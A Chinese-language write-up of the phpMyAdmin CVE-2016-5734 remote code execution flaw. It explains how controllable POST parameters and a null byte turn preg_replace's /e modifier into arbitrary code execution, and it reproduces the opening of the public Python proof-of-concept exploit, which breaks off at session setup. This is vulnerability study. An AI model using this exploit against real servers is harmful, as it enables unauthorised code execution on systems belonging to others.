 **\$find（\$_POST["find"]，\$columnIndex（\$_POST["columnIndex"]），$replaceWith（\$_POST['replaceWith']）**都是可控的，导致前面的查询操作都是可控的。

先一开始写一张表，字段值写上**"0/e"**

最后构造这样就可以

```php
$find = "0/e";
$fromsqldata  = "0/e";
//preg_replace("/" . $find . "/", $replaceWith, $row[0] );
preg_replace("/" . $find . "\0/", $_POST['replaceWith'], $fromsqldata );
```

执行任意代码

但利用前需要**token**和对数据的读写操作，有些复杂，但是有[POC](https://www.exploit-db.com/exploits/40185)

```PYTHON
#!/usr/bin/env python

"""cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
CVE: CVE-2016-5734
Author: https://twitter.com/iamsecurity
run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
"""

import requests
import argparse
import sys

__author__ = "@iamsecurity"

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd
    if arguments.dbs:
        db = arguments.dbs
    else:
        db = "test"
    token = False
    custom_table = False
    if arguments.table:
        custom_table = True
        table = arguments.table
    else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd
    else:
        payload = "system('uname -a');"

    size = 32
    s = requests.Session()
    # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
```